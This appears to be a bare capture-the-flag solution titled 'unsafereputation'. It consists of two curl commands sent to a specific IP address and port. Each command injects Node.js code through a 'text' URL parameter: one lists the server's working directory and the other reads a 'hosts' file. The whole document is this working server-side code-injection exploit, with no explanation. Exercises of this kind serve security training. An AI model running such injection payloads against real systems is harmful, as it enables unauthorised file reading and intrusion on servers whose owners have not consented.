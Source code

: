 # unsafereputation
```bash
curl "http://35.239.219.201:4000/?text=require('fs').readdirSync('.').toString()"
curl "http://35.239.219.201:4000/?text=require('fs').readFileSync('hosts').toString()"
```